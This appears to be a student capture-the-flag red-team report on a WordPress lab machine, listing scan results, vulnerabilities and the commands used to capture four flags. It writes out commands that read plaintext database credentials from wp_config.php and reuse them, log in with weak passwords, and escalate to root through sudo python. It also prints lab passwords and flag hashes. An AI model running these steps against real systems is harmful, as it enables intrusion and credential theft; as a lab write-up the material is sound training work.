




# Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
    - running wpscan was able to enumerate usernames for the target system.
- 

  - SSH with password.
    - Users are able to SSH with a password instead of requiring an SSH key.
    - User michael had a weak password(Brute forced with HYDRA)
- 

  - Database credentials for wordpress are written in plain text.
    - Database credentials were stored in /var/www/html/
    - This allowed me to access the mysql database and extract confidential information such as password hashes.
- [sqlcredentials](./Images/MySQL%20password.JPG)

  - python can be run with sudo privilages.
    - The user steven has the ability to run python with sudo.
    - Running python with sudo can execute arbitrary code on the system to get a shell with root access.

  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - The version of Samba running on this server allows an attacker to execute malicious code remotely.

  - [CVE-2017-3167](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3167)
    - The version of Apache running on this server allows an attacker to bypass authentication by use of third party module.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var`
      - `grep -rnw ./ -e flag1 2>/dev/null`
- 

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in /var/www.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var/www`
      - `cat flag2.txt`
- 

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cat /var/www/html/wp_config.php`
      - `mysql -u root -p` (password R@v3nSecurity)
      - `USE wordpress;`
      - `USE wp_posts;`
      - `SELECT * FROM wp_posts;`
- 

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
    - Commands run:
      - `ssh steven@192.168.1.110 (password pink84)`
      - `python -c 'import os; os.system("/bin/sh")'`
      - `cat /root/flag4.txt`
- 
